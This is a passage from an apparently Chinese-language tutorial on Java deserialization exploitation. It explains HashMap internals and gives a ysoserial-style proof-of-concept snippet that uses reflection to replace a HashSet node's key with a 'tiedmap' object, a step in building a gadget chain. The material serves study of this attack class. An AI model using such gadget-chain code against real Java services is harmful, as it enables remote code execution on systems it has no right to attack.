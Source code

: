 ```
        if (o instanceof Map.Entry) {
            Map.Entry<?,?> e = (Map.Entry<?,?>)o;
            if (Objects.equals(key, e.getKey()) &&
                Objects.equals(value, e.getValue()))
                return true;
        }
        return false;
    }
}
```

Node<K,Y>这个就是存放key value 的节点

而`transient Node<K,V>[] table;`则说明键值对存放在table这个数组里面

所以能够想到，要反射获取key，就需要先拿到一个HashMap，接着拿到这个HashMap中的table数组，再从这个数组中取对应的Node，通过反射去获取每一个Node的key，value

这个地方的poc就仿照了ysoserial的写法，通过反射修改了key值

```
HashSet hashset = new HashSet(1);
hashset.add("foo");
Field f = null;
try {
    f = HashSet.class.getDeclaredField("map");
} catch (NoSuchFieldException e) {
    f = HashSet.class.getDeclaredField("backingMap");
}
f.setAccessible(true);
HashMap hashset_map = (HashMap) f.get(hashset);

Field f2 = null;
try {
    f2 = HashMap.class.getDeclaredField("table");
} catch (NoSuchFieldException e) {
    f2 = HashMap.class.getDeclaredField("elementData");
}

f2.setAccessible(true);
Object[] array = (Object[])f2.get(hashset_map);

Object node = array[0];
if(node == null){
    node = array[1];
}
Field keyField = null;
try{
    keyField = node.getClass().getDeclaredField("key");
}catch(Exception e){
    keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
}
keyField.setAccessible(true);
keyField.set(node,tiedmap);
```

这里实例化HashSet的时候要注意，之前我们可以去调用无参的构造函数，但是现在需要给他定义一个初始化容量，如果不定义的话，table数组就为空

![image-20220928140524126](images/8.png)

为空的话就会导致下面抛出一个异常

再来看定义了的情况

![image-20220928140640878](images/9.png)

这里具体是什么原因，我也不知道了，我看不添加初始容量的时候hashshe_map也有对应的键值对，但是table就是获取不到

获取到table后，就用table数组中的Node对象通过反射去修改key值